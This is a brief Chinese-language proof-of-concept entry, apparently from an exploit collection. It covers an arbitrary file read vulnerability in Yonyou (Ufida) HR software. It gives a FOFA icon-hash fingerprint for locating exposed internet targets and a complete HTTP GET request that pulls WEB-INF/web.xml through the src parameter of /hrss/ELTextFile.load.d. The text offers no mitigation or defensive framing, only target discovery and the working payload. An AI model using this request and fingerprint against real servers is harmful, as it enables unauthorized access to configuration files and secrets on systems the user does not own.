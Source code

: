 ## 用友Ufida-ELTextFile.load.d任意文件读取漏洞

用友Ufida /hrss/ELTextFile.load.d 存在任意文件读取漏洞

## fofa

```
icon_hash="-628229493"
```

## poc

```
GET /hrss/ELTextFile.load.d?src=WEB-INF/web.xml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

